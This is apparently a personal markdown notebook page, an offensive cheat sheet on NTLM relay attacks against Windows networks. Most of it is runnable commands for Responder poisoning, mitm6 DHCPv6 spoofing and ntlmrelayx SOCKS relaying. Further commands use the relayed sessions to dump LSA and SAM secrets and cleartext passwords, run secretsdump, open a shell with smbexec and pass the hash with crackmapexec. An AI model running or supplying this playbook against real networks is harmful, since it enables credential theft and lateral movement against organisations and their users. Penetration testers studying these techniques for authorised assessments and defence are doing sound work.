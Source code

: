 ```yaml
---
creation date: September 8th 2022
last modified date: September 8th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[ntlmrelayx.py]]  
___

## Socks Proxy Relaying

Configure Responder with `SMB` and `HTTP` turned off in `/etc/responder/Responder.conf`

``````
[Responder Core]

; Servers to start
SQL = On
SMB = Off
RDP = On 
Kerberos = On
FTP = On 
POP = On
SMTP = On
IMAP = On
HTTP = Off
HTTPS = On
DNS = On  
LDAP = On
``````

````
sudo responder -I eth0 -r -d -w
````


Make sure /etc/proxychains.conf is configured to use port 1080

Find machines with SMB signing disabled

```
cme smb <networkIP>/<cidr> --gen-relay-list relayTargets.txt
```

Run ntlmrelayx.py

``````

sudo python3 ntlmrelayx.py -tf ~/Desktop/targets -socks -smb2support

``````

^a8df20

type `socks` into our relay prompt to see the active connections available.

Look for a connection that has AdminStatus set to true.

Instead of abusing LLMNR and other older protocols, we can use `mitm6` to abuse IPv6. The idea is to reply to DHCPv6 requests made by machines on the network to set the attacker IP as the default IPv6 DNS server in order to force victims to authenticate against our attacker machine. ^331793

```
sudo mitm6 -d testdomain.local
```

Use proxychains with crackmapexec to use these sessions. The password we provide is arbitrary since the SOCKS proxy is going to use the session we gained from relaying auth previously. The IP and user should come from the output of running socks in ntlmrelayx.py.

`proxychains cme smb 10.1.1.206 -u user -p pass -d Domain --lsa

Using the --lsa will dump hashes and clear text passwords from registry secrets. Using --sam will obtain local account hashes.


secretsdump.py from impacket will also dump local hashes

```
proxychains ./secretsdump.py vulnerable/Administrator@192.168.48.230
```

Or you can get a shell with Impackets smbexec
```
proxychains smbexec.py <domain>/<relayedUser>@192.168.10.60
```



Validate any clear text passwords or hashes that were cracked work using crackmapexec. 

`proxychains cme smb 10.1.1.1/24 -u user -p pass -d Domain


You can also passthehash with crackmapexec if you get ntlmv1 hashes.


`proxychains cme smb 10.1.1.1/24 -u user -H hashgoeshere -d Domain


You can use bloodhound to see if those accounts have local admin on any other machine and dump lsa and sam from them. 

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 8th 2022 (10:12 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
